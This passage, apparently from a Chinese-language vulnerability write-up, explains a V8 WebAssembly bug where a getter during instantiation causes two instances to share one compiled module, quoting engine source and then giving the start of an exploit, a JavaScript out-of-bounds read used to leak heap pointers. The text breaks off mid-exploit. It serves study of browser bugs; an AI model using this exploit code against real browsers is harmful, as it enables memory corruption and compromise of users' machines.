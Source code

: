 wasm在实例化的时候有个判断，他会根据你是否有owner来判断是否可以重用已有的compiled_module对象。如果有就克隆一个，如果没有就重用已有的compiled_module，这里我们在设置owner之前就出发了wasm2的实例化，所以就导致wasm和wasm2公用一个compiled_module对象。


之后我们在调用wasm2.exports.memory.grow(1);时就会调用update_wasm_memory_reference将两个wasm的wasm_memory_reference同时以旧换新。
```
void RelocInfo::update_wasm_memory_reference(
    Isolate* isolate, Address old_base, Address new_base,
    ICacheFlushMode icache_flush_mode) {
  DCHECK(IsWasmMemoryReference(rmode_));
  DCHECK_GE(wasm_memory_reference(), old_base);
  printf("new_base is :%p\n",new_base);
  printf("old_base is :%p\n",old_base);
  Address updated_reference = new_base + (wasm_memory_reference() - old_base);
  printf("updated_reference is:%p\n",updated_reference);
  // The reference is not checked here but at runtime. Validity of references
  // may change over time.
  unchecked_update_wasm_memory_reference(isolate, updated_reference,
                                         icache_flush_mode);
}
```

### 利用

#### 一、leak

代码如下：
```
  raw_wasm = parse_wasm_module();
  var mod = new WebAssembly.Module(raw_wasm);
  var ffi = {
    mod: {
      get imp() {
        console.log('getter');
        wasm2 = new WebAssembly.Instance(mod, {mod: {imp: function(){}}});
        spacer = new ArrayBuffer(0x10000);
        return function() {};
      }
    }
  };
  wasm = new WebAssembly.Instance(mod, ffi);
  wasm2.exports.memory.grow(1);
  console.log("memory is");
  junk = [];
  console.log("START");
  while (true) {
    junk.push(new ArrayBuffer(8));
    var p1 = read_oob(16).bswap();
    var p2 = read_oob(24).bswap();
    console.log(p1);
    console.log(p2);
    if (p2.sub(p1).val() == 8)
    {
      console.log("ok");
      console.log(p1.str());
      console.log(p2.str());
      break;
    }
  }
  
  var b8ptr = read_oob(8).bswap();
  scratch = b8ptr.sub_u32(0x20010);
```
